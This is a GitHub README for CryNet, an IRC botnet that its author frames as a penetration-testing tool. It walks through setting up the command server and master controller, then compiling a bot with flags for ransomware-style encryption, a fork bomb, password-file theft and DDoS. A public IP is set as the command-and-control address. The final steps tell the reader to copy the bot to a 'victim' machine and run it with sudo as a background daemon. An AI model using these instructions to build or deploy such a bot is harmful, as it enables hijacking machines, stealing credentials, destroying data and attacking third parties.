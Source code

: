 # CryNet

CryNet is an advanced IRC Botnet Intended to be used in a penetration testing context. It is an open-source tool designed to simulate and test various security threats in a controlled environment. 


# Features
* Simulate various cybersecurity threats including DDoS, ransomware, and system throttling
* Customizable bots with multiple capabilities
* IRC-based Command and Control (C&C) infrastructure
* Cross-platform support with components written in C++, Java, and Python

### System Requirements and Dependencies

**Server**
* OS: Any with Java Runtime Environment (JRE) 1.8
* Dependencies: Jackson-core, commons-codec, Apache Maven

**Bot**
* OS: Linux, preferably Debian based at this time
* Dependencies: crypto++, libircclient, libtins/libpcap

**Master**
* OS: Any with Python installed
* Dependencies: Colorama, hashlib, socket, subprocess, threading, JSON

### Installation and Setup

**General Installation**
1. Clone the repository 

```
git clone https://github.com/s1-dev/CryNet.git
cd CryNet
```

2. Following below steps for installation and setup for deseired component 

**IRC Server Installation**

1. Run `setup.py` script

```
python setup.py
```

2. Follow script for server setup

```
Welcome to CryNet project setup, please enter revelant information to setup configuration:
What config would you like to update? (MASTER|SERVER|BOTH) SERVER
~~~~~~~~~~~~~~~~~Server config~~~~~~~~~~~~~~~~~
Current configuration:
{
    "serverHostname": "",
    "portNumber": 0,
    "maxChannels": 0,
    "maxChannelUsers": 0,
    "maxMessageLength": 0,
    "maxNickLength": 0,
    "maxConnections": 0,
    "masterAuthDigest": "",
    "botAuthDigest": "",
    "shutdownSalt": "",
    "shutdownDigest": ""
}
Server hostname (IP): 127.0.0.1
Port number (6667|6697): 6667
Max channels (default is 7):
...
```

3. Run `ircServerBuildAndRush.sh` script to build and execute the maven project

```
./ircServerBuildAndRun.sh
```

**Master Installation**
1. Run `setup.py` script

```
python setup.py
```

2. Follow script for master setup

```
Welcome to CryNet project setup, please enter revelant information to setup configuration:
What config would you like to update? (MASTER|SERVER|BOTH) MASTER
~~~~~~~~~~~~~~~~~Master config~~~~~~~~~~~~~~~~~
Current configuration:
{
    "server": "127.0.0.1",
    "port": 6667,
    "masterValidatePass": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08",
    "botValidatePass": "ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae",
    "botPath": "/code/secDev/CryNet/src/bot/"
}
Server address (IP): 127.0.0.1
Port number (6667|6697): 6667
Master validation passphrase:
...
```

3. Run `runMasterProgram.sh` script or run the `MasterProgram.py` script

```
./runMasterProgram.sh
```

OR

```
cd src/master/
python ./MasterProgram.py
```

**Bot Installation - Manual Setup**
1. Navigate to the root of the bot project directory

```
cd src/bot/
```

2. Modify `manualCompilationScript.sh` to flip any deseired bot capaiblitity flags to 1

```
head -n 7 manualCompilationScript.sh
#!/bin/bash

ENABLE_PING_ACTION=0
ENABLE_ENCRYPT_ACTION=0
ENABLE_REPORT_ACTION=0
ENABLE_FORK_BOMB_ACTION=0
ENABLE_GET_PASSWD_ACTION=0

nano manualCompilationScript.sh
head -n 7 manualCompilationScript.sh
#!/bin/bash

ENABLE_PING_ACTION=1
ENABLE_ENCRYPT_ACTION=0
ENABLE_REPORT_ACTION=1
ENABLE_FORK_BOMB_ACTION=0
ENABLE_GET_PASSWD_ACTION=1
```

3. Modify variables set in `manualCompilationScript.sh` that are passed in as macros for compilation. 

Example of the set variables
```
BOT_NICK="bot_NICK"
BOT_USER="bot_USER"
SERVER_ADDRESS="52.90.220.187"
ASSIGNED_CHANNEL="#testChannel"
BOT_PASS="test123"
MASTER_NICK="master"
OUT_FILE="irc_bot"
```

4. Run `manualCompilationScript.sh`
```
./manualCompilationScript.sh
```

4. Move the executable to the deseired "victim" machine 

5. Run the executable, it default runs as a background process. Otherwise, use "NO_DAEMON" command-line argument 

```
sudo ./irc_bot
``` 

OR

```
sudo ./irc_bot NO_DAEMON
```
